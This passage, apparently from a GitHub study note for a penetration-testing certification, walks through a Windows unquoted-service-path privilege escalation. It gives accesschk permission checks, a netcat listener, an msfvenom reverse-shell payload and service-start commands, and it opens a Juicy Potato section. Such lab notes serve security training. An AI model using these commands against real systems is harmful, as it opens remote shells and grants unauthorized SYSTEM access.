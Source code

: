3. check each folder before the service path starting from the root if you have read or write permission
```
accesschk.exe /accepteula -uwdq FolderPath
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/457a182b-312e-4fe1-97f7-4345eff8b0f6)

as you can see you don't have read or write permission in C folder. check the next folder

![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/db03daaa-2404-4818-808b-2021f8b08411)

in `"Unquoted Path Service"` folder we have read & write permission so you can put your payload here. your payload name should be exactly the same name of the next folder

for example your path is `"C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe"` and you have read & write permission in `"Unquoted Path Service"` folder your payload should be Common.exe

##  <span style="color:lightgreen">Exploitation</span>
### Kali VM

1. Start a netcat listener
```console
$ sudo nc -nvlp 53
```

2. Open an additional command prompt and type: 
```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[tun0 IP] LPORT=53 -f exe -o common.exe
```
3. Transfer the generated file, `common.exe`, to the Windows VM.

### Windows VM

1. Place `common.exe` in `'C:\Program Files\Unquoted Path Service'`.
2. Open command prompt and type: 
```console
C:\Temp> sc start unquotedsvc
# OR
C:\Temp> net start unquotedsvc
```

### Kali VM

1. Wait for a reverse shell on your kali machine.

# <span style="color:lightblue">Juicy potato attack</span>

## <span style="color:lightgreen">Methodology</span>

This privilege allows us to impersonate a token of a privileged account such as NT AUTHORITY\SYSTEM. 
